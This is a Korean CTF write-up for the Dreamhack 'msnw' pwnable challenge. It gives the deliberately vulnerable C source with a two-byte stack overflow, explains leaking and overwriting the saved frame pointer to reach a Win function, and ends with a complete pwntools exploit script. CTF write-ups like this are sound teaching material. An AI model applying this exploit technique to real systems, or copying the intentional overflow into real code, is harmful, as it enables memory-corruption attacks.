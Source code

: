 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN hook"
excerpt: "드림핵 포너블 msnw 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-07 15:30
---
```


드림핵 크리스마스 CTF에 출제된 포너블 문제다. 전체적인 환경에 대한 정보는 따로 주어지지 않았고, 바이너리, 소스코드, 더미 플레그가 제공되었다.

우선 먼저 코드를 살펴보자.

```c
/* msnw.c
 * gcc -no-pie -fno-stack-protector -mpreferred-stack-boundary=8 msnw.c -o msnw
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define MEONG 0
#define NYANG 1

#define NOT_QUIT 1
#define QUIT 0

void Init() {
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
}

int Meong() {
    char buf[0x40];

    memset(buf, 0x00, 0x130);

    printf("meong 🐶: ");
    read(0, buf, 0x132);

    if (buf[0] == 'q')
        return QUIT;
    return NOT_QUIT;
}

int Nyang() {
    char buf[0x40];

    printf("nyang 🐱: ");
    printf("%s", buf);

    return NOT_QUIT;
}

int Call(int animal) {
    return animal == MEONG ? Meong() : Nyang();
}

void Echo() {
    while (Call(MEONG)) Call(NYANG);
}

void Win() {
    execl("/bin/cat", "/bin/cat", "./flag", NULL);
}

int main(void) {
    Init();

    Echo();
    puts("nyang 🐱: goodbye!");

    return 0;
}
```

코드를 살펴보면 Meong() 함수에서 2바이트 오버플로우가 가능한 것을 알수 있다. 따라서 SFP 변조를 통해 코드의 실행 흐름일 바꿀 수 있을것 같다. Win 함수가 실행되면 flag가 출력되는것 같다.

우선 Meong() 함수에서 \n포함 0x130 길이의 문자열을 입력하면 이 값을 그대로  Nyang()함수에서 사용하기 때문에 printf를 통해 SFP 하위 2자리 값을 얻을 수 있다.

버퍼의 크기는 0x130이고 이를 0x10으로 나누면 13이니 버퍼에 Win 함수 값으로 덮어버렸다. 그렇게 되면 그냥 버퍼에 존재하는 값만 잘 맞춰서 sfp를 조작하면 Win함수로 갈수 있다. 우선 SFP 값을 릭해서 나온 값으로 gdb를 통해 buf 문자열이 포함되는 위치를 찾는다. 버퍼에는 Win 함수 주소값이 연속적으로 들어있어 어느 직점을 찍던 맨 뒷자리가 0 아님 8로 끝나면 코드는 성공한다. 나는 buf의 맨 처음 지점을 계산해 -8을 계산해 sfp를 오버라이트 했다. sfp 공격은 공격자가 입력한 값 +8 의 위치한 코드를 실행하기 때문에 이런 점만 맞춰주면 Win 함수를 실행할 수 있다. (32비트는 +4한 부분을 실행한다. 메모리 사이즈에 따라 64비트는 8, 32비트는 4 만큼의 차이가 있다.)


```python
from pwn import *
context.update(arch='amd64', os='linux')
#c = remote("host3.dreamhack.games", 17108);
c = process("./msnw")
#libc = ELF("./libc.so.6")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

execFlag = 0x40135b
payload = p64(execFlag)
while(len(payload)!=0x130):
    payload = payload+p64(execFlag)

c.recvuntil("meong 🐶: ")
pause()
c.sendline("a"*0x12f)

#print(payload)

c.recvuntil(b"\n")
leak1 = c.recv(2)
leak2 = leak1+b"\x00\x00\x00\x00\x00\x00"
print("leak : "+str(hex(u64(leak2))))
print("leak : "+str(leak2))
c.recvuntil(": ")

leak = int(hex(u64(leak2)), 16)-0x200-0x130
print(hex(leak))

#payload += b"a"*(0x130-len(p64(execFlag)))
#rsp 0x7fffffffde00
payload = payload + p64(leak-0x8)[:-6]
print(payload)
c.sendline(payload)
pause()
print(c.recvall())
```